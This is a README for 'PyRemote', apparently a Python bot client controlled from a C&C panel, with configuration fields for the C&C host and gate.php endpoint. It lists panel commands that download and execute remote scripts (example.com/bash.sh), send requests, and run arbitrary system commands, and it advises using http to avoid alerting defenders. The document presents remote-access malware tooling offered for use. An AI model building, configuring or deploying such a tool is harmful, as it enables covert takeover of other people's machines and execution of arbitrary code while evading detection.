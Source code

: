 # PyRemote
Python script to machine remote control

## About
Script to control you PC from panel. Working on Python 2/3 by using urllib/2/3

## Panel
I don\`t upload panel here but if u want, I can do this. 

## Config
`_scheme` - http(-s) C&C protocol. I recomended http to false start alerting.
`_host` - you domain
`_gate` - path to gate.php
`_sleep` - sleep before receive command from C&C
`_save` - dir to save without slash in end. '/tmp' - for save in temporary dir and '.' - to save in script dir
`_ext` - list of ext what need add to name if it is in link

## Commands from panel
`d&e` - Download & Execute
- `d&e||https://example.com/bash.sh`

`o_s` - Open Site, just send GET request to site
- `o_s||https://www.google.com`

`de&agr` - Download&Execute with agrs
- `d&e||https://example.com/bash.sh||-a 100 -b 90 -c -`

`sys` - run command in system console
- `sys||echo "passsword1"|sudo -S apt-get update&&sudo apt-get upgrade`
